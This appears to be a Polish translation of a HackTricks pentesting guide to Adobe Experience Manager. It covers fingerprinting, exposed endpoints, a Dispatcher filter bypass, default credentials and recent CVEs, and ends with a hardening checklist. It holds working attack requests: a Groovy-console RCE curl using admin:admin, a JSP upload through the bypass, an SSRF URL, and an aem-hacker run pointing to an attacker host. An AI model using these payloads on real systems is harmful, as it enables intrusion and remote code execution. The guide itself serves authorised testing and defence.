 # AEM (Adobe Experience Manager) Pentesting

{{#include ../../banners/hacktricks-training.md}}

> Adobe Experience Manager (AEM, część Adobe Experience Cloud) to korporacyjny CMS, który działa na Apache Sling/Felix (OSGi) oraz Java Content Repository (JCR).
> Z perspektywy atakującego instancje AEM często ujawniają niebezpieczne punkty końcowe do rozwoju, słabe zasady Dispatcher, domyślne dane uwierzytelniające oraz długą listę CVE, które są łatanie co kwartał.

Lista kontrolna poniżej koncentruje się na **zewnętrznie dostępnej (unauth) powierzchni ataku**, która wciąż pojawia się w rzeczywistych zaangażowaniach (2022-2025).

---

## 1. Fingerprinting
```
$ curl -s -I https://target | egrep -i "aem|sling|cq"
X-Content-Type-Options: nosniff
X-Dispatcher: hu1            # header added by AEM Dispatcher
X-Vary: Accept-Encoding
```
Inne szybkie wskaźniki:
* `/etc.clientlibs/` statyczna ścieżka obecna (zwraca JS/CSS).
* `/libs/granite/core/content/login.html` strona logowania z banerem „Adobe Experience Manager”.
* `</script><!--/* CQ */-->` komentarz na dole HTML.

---

## 2. Wysokowartościowe punkty końcowe bez uwierzytelnienia

Ścieżka | Co otrzymujesz | Uwagi
---- | ------------- | -----
`/.json`, `/.1.json` | Węzły JCR za pomocą **DefaultGetServlet** | Często zablokowane, ale *Dispatcher bypass* (patrz poniżej) działa.
`/bin/querybuilder.json?path=/` | API QueryBuilder | Wyciek drzewa stron, wewnętrzne ścieżki, nazwy użytkowników.
`/system/console/status-*`, `/system/console/bundles` | Konsola OSGi/Felix | 403 domyślnie; jeśli ujawnione i znalezione dane uwierzytelniające ⇒ RCE przy przesyłaniu pakietów.
`/crx/packmgr/index.jsp` | Menedżer pakietów | Umożliwia przesyłanie pakietów treści z uwierzytelnieniem → przesyłanie ładunku JSP.
`/etc/groovyconsole/**` | AEM Groovy Console | Jeśli ujawnione → dowolne wykonanie Groovy / Java.
`/libs/cq/AuditlogSearchServlet.json` | Dzienniki audytu | Ujawnienie informacji.
`/libs/cq/ui/content/dumplibs.html` | Zrzut ClientLibs | Wektor XSS.

### Sztuczka z obejściem Dispatcher
Większość stron produkcyjnych znajduje się za *Dispatcher* (reverse-proxy). Jego zasady filtrów można obejść, dodając dozwoloną statyczną rozszerzenie **po średniku lub zakodowanej nowej linii**:
```
GET /bin/querybuilder.json;%0aa.css?path=/home&type=rep:User HTTP/1.1
```
Jedno zapytanie, jak powyżej, często ujawnia węzły profilu użytkownika z adresami e-mail. P-T Partners opublikowało dobre wskazówki dotyczące tej słabości. 【】

---

## 3. Typowe błędne konfiguracje (wciąż obecne w 2025)

1. **Anonimowy serwlet POST** – `POST /.json` z `:operation=import` pozwala na dodawanie nowych węzłów JCR. Zablokowanie `*.json` POST w Dispatcherze to naprawia. 【】
2. **Profile użytkowników dostępne dla wszystkich** – domyślne ACL przyznaje `jcr:read` na `/home/users/**/profile/*` wszystkim.
3. **Domyślne dane logowania** – `admin:admin`, `author:author`, `replication:replication`.
4. **Włączony WCMDebugFilter** ⇒ odzwierciedlone XSS przez `?debug=layout` (CVE-2016-7882, wciąż znalezione w starszych instalacjach 6.4).
5. **Ekspozycja Groovy Console** – zdalne wykonanie kodu przez wysłanie skryptu Groovy:
```bash
curl -u admin:admin -d 'script=println "pwn".execute()' https://target/bin/groovyconsole/post.json
```

---

## 4. Ostatnie luki (cykl wydania pakietów serwisowych)

Kwartał | CVE | Dotknięte | Wpływ
------- | --- | -------- | ------
Grudzień 2024 | **CVE-2024-43711** | 6.5.21 i wcześniejsze | Niewłaściwa walidacja wejścia → **Wykonanie dowolnego kodu** (wymaga niskoprawnych uprawnień). 【】
Grudzień 2024 | CVE-2024-43724/26 | 6.5.21 i wcześniejsze | DOM / Przechowywane XSS w kreatorze przenoszenia strony. 【】
Grudzień 2023 | CVE-2023-48452/68 | ≤ 6.5.18 | XSS oparte na DOM przez spreparowany URL. 【】
Grudzień 2022 | CVE-2022-30683 | ≤ 6.5.13 | Wada w projektowaniu kryptograficznym → odszyfrowanie sekretu (wymaga niskoprawnych danych logowania). 【】

Zawsze sprawdzaj biuletyn *APSB* odpowiadający pakietowi serwisowemu klienta i żądaj najnowszej wersji **6.5.22** lub *Cloud Service 2024.11*.

---

## 5. Fragmenty wykorzystania

### 5.1 RCE przez obejście dispatcher + przesyłanie JSP
Jeśli anonimowe zapisywanie jest możliwe:
```
# 1. Create a node that will become /content/evil.jsp
POST /content/evil.jsp;%0aa.css HTTP/1.1
Content-Type: application/x-www-form-urlencoded

:contentType=text/plain
jcr:data=<% out.println("pwned"); %>
:operation=import
```
Teraz zażądaj `/content/evil.jsp` – JSP działa z użytkownikiem procesu AEM.

### 5.2 SSRF do RCE (historyczne < 6.3)
`/libs/mcm/salesforce/customer.html;%0aa.css?checkType=authorize&authorization_url=http://127.0.0.1:4502/system/console`
`aem_ssrf2rce.py` z **aem-hacker** automatyzuje cały proces. 【】

---

## 6. Narzędzia

* **aem-hacker** – skrypt do enumeracji typu szwajcarski scyzoryk, wspiera obejście dispatcher, wykrywanie SSRF, sprawdzanie domyślnych poświadczeń i więcej.
```bash
python3 aem_hacker.py -u https://target --host attacker-ip
```【】
* **Content Brute-force** – rekurencyjnie żądaj `/_jcr_content.(json|html)`, aby odkryć ukryte komponenty.
* **osgi-infect** – przesyłaj złośliwy pakiet OSGi przez `/system/console/bundles`, jeśli dostępne są poświadczenia.

---

## 7. Lista kontrolna wzmacniania (dla rekomendacji w Twoim raporcie)

1. Utrzymuj instancję na **najświeższym skumulowanym pakiecie serwisowym** (stan na lipiec 2025: 6.5.22).
2. Usuń/zmień domyślne konta; wymuś SSO/SAML.
3. Zaostrzyć **filtry Dispatcher** – odrzucaj `;`, zakodowane nowe linie oraz `*.json` lub `*.querybuilder.json` dla anonimowych użytkowników.
4. Wyłącz lub zabezpiecz konsolę (`/system/console`, `/crx/*`, `/etc/groovyconsole`) za pomocą listy dozwolonych adresów IP.
5. Zastosuj pakiet *Wzmacnianie uprawnień anonimowych* dostarczony przez Adobe.

## Odniesienia

* Adobe Security Bulletin APSB24-69 – “Aktualizacje zabezpieczeń dla Adobe Experience Manager (grudzień 2024)”.
* 0ang3el – narzędzie aem-hacker (GitHub).
{{#include ../../banners/hacktricks-training.md}}
